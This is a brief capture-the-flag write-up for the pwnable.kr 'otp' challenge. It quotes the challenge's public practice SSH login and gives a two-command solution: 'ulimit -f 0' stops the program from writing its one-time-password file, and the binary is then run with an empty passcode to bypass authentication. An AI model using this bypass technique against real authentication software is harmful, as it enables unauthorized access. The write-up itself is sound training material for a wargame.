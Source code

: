 # pwnable.kr -- Rookiss -- otp
Actually, the program do not check whether it does read `passcode`.

So just use `ulimit -f 0` to forbid program write any bytes and `passcode` will must be `0`.

## 1. Challenge
  > I made a skeleton interface for one time password authentication system.  
  > I guess there are no mistakes.  
  > could you take a look at it?  
  >   
  > hint : not a race condition. do not bruteforce.  
  >   
  > ssh otp@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect via SSH, then:

    ```bash
    $ ulimit -f 0
    $ python -c "import subprocess; subprocess.Popen(['/home/otp/otp', '']); exit()"
    ```

    You will get the flag.

